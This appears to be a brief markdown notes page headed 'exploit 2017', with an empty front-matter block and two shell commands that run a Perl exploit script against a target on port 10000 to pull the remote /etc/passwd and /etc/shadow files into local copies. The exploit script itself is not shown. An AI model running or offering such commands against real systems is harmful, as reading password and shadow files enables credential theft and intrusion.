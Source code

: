 ```yaml
---
category: Uncategorized
tags: []
---
```

#### exploit 2017

```
./2017.pl $TARGET 10000 /etc/passwd 0 > passwd
```

```
./2017.pl $TARGET 10000 /etc/shadow 0 > shadow
```